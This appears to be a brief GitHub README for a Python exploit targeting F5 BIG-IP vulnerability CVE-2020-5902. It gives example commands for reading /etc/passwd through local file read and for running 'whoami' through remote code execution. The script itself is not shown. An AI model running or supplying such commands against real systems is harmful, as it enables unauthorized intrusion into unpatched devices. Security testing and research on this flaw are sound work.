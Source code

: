 # CVE-2020-5902
Python script to exploit F5 Big-IP CVE-2020-5902


## Examples
Exploit LFI:
`python3 exploit.py -t example.com -x lfr -f /etc/passwd`

Exploit RCE:
`python3 exploit.py -t example.com -x rce -a whoami`
